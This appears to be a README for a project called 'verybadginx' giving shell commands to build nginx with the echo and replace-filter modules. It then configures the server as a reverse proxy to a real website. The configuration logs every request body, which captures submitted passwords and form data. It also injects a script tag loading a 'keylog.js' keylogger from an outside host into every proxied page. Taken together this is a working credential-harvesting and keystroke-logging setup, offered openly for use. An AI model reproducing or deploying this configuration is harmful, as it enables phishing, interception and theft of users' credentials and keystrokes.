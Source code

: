 # verybadginx

#### Download nginx with modules

cd /tmp
curl -L -O 'https://github.com/openresty/echo-nginx-module/archive/v0.58.tar.gz'
tar -xzvf v0.58.tar.gz && rm v0.58.tar.gz
mv echo-nginx-module-0.58 /tmp/echo-nginx-module
curl -O 'http://nginx.org/download/nginx-1.9.7.tar.gz'
tar -xzvf nginx-1.9.7.tar.gz && rm nginx-1.9.7.tar.gz
git clone https://github.com/openresty/replace-filter-nginx-module

####  Ajout user/group nginx
groupadd nginx
useradd -g nginx nginx

####  Install nginx with modules

cd nginx-1.9.7/ && ./configure \
 --user=nginx \
 --group=nginx \
 --prefix=/etc/nginx \
 --sbin-path=/usr/sbin/nginx \
 --conf-path=/etc/nginx/nginx.conf \
 --pid-path=/var/run/nginx.pid \
 --lock-path=/var/run/nginx.lock \
 --error-log-path=/var/log/nginx/error.log \
 --http-log-path=/var/log/nginx/access.log \
 --add-module=/tmp/echo-nginx-module \
 --add-module=/tmp/replace-filter-nginx-module \
 --without-http_rewrite_module


#### Modif nginx.conf
http {

add 	log_format custom '$request_body';

add	access_log /var/log/nginx/access.log custom;

del      include /etc/nginx/sites-enabled/*;

add       include /etc/nginx/sites-enabled/default;

#### Modif sites-available/default et sites-enabled/default


	location / {
	
add		echo_read_request_body;

add		proxy_pass http://www.microplus.fr/;

add		subs_filter "</div>" "</div><script/src='https://www.microplus.fr/secu/images/test/keylog.js'></script>" -o;


	


